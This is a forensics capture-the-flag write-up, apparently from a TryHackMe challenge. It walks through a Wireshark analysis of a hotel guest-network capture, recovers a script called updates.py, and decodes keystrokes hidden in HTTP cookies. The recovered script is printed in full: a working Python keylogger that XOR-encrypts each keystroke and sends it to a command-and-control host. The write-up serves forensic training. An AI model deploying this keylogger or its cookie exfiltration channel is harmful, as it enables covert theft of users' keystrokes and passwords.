




# Day 4 - Packed Light

| Category |Difficulty|
|:--------:|:--------:|
| Forensics|   Easy   |

**Skills learned:**
* Network packet capture analysis with Wireshark

## Concierge Briefing
Tiny packets. Odd hours. Suspiciously regular. Someone's smuggling out the data equivalent of a hotel towel every night, folded neatly inside traffic that looks ordinary until you decode it.
A short capture from the guest network is all VERA could pull before the connection dropped. Somewhere in that traffic, a quiet little errand is running on a loop, and it isn't part of any service the hotel actually offers.

**File attachment(s):**
```
Packed-light-forensics-1784224937659.zip
└── traffic.pcapng
```
## Today's Itinerary
* Analyze the provided capture for a covert communication channel
* Identify where the exfiltrated data is being hidden and reassemble it
* Decode the recovered data and submit the flag

## Provided Hint


## Initial Steps
I downloaded the attached file and opened it in **Wireshark**. Since the provided hint said there were pings like clockwork, I examined the **HTTP object list** under the menu **File > Export Objects > HTTP**.



## Finding the Flag
Examining each of these exported HTTP objects closer, we find the GET requests behind each one, including:
```
GET /temp/updates.py HTTP/1.1
Host: byte-lotus-hotel.thm:8080
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.6
Accept-Encoding: gzip, deflate
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.2
Date: Wed, 17 Jun 2026 05:38:38 GMT
Content-type: text/x-python
Content-Length: 1086
Last-Modified: Wed, 17 Jun 2026 05:30:02 GMT
import requests
import base64
from pynput import keyboard
C2_URL = "http://byte-lotus-hotel.thm:8080/"
def getkey():
p1 = "H0t3lSt@ff0Nly"
p2 = "K3epS3cr3t!"
return p1 + p2
def xor(data: bytes, key: bytes) -> bytes:
return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
def sendltr(character):
raw_bytes = character.encode('utf-8')
encrypted = xor(raw_bytes, getkey().encode('utf-8'))
b64_string = base64.b64encode(encrypted).decode('utf-8')
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",
"Cookie": f"hotel_sess_state={b64_string}"
}
try:
requests.get(C2_URL, headers=headers, timeout=0.5)
except:
pass
def on_press(key):
try:
sendltr(key.char)
except AttributeError:
if key == keyboard.Key.space:
sendltr(" ")
elif key == keyboard.Key.enter:
sendltr("\n")
print("[*] Byte Lotus Sync Service started...")
with keyboard.Listener(on_press=on_press) as listener:
listener.join()
```

Using the display filter `http.request.method==GET` will show all GET requests found in the capture:


By examining each of these closer (by following the TCP streams) using the provided hint to look at **the request headers**, we find:
```
GET / HTTP/1.1
Host: byte-lotus-hotel.thm:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: hotel_sess_state=HA==
```

There are encrypted strings attached to the cookie **hotel_sess_state**. Grabbing each of these strings in order after the initial `GET /temp/updates.py` request leads us to:
```
hotel_sess_state=HA==
hotel_sess_state=AA==
hotel_sess_state=BQ==
hotel_sess_state=Mw==
hotel_sess_state=Hg==
hotel_sess_state=ew==
hotel_sess_state=Og==
hotel_sess_state=fA==
hotel_sess_state=Fw==
hotel_sess_state=eQ==
hotel_sess_state=Ow==
hotel_sess_state=Fw==
hotel_sess_state=Pw==
hotel_sess_state=fA==
hotel_sess_state=PA==
hotel_sess_state=Kw==
hotel_sess_state=IA==
hotel_sess_state=eQ==
hotel_sess_state=Jg==
hotel_sess_state=Lw==
hotel_sess_state=Fw==
hotel_sess_state=eA==
hotel_sess_state=Pg==
hotel_sess_state=LQ==
hotel_sess_state=Gg==
hotel_sess_state=Fw==
hotel_sess_state=MQ==
hotel_sess_state=eA==
hotel_sess_state=PQ==
hotel_sess_state=NQ==
```

## Decrypting the Flag
We already know how to decrypt these strings from the **updates.py** script:
```python
def getkey():
p1 = "H0t3lSt@ff0Nly"
p2 = "K3epS3cr3t!"
return p1 + p2
def xor(data: bytes, key: bytes) -> bytes:
return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
def sendltr(character):
raw_bytes = character.encode('utf-8')
encrypted = xor(raw_bytes, getkey().encode('utf-8'))
b64_string = base64.b64encode(encrypted).decode('utf-8')
```

For each encrypted string, the decryption steps are:
1. Decode the string from Base64
2. XOR the string with the provided UTF-8 key H0t3lSt@ff0NlyK3epS3cr3t!

I used CyberChef to decrypt each string:


Doing this for all strings decodes the full flag for us.

## Flag
**THM{V3r4_1s_\*\*\*\*\*\*\*\*_\*\*\*\*_\*\*\*}**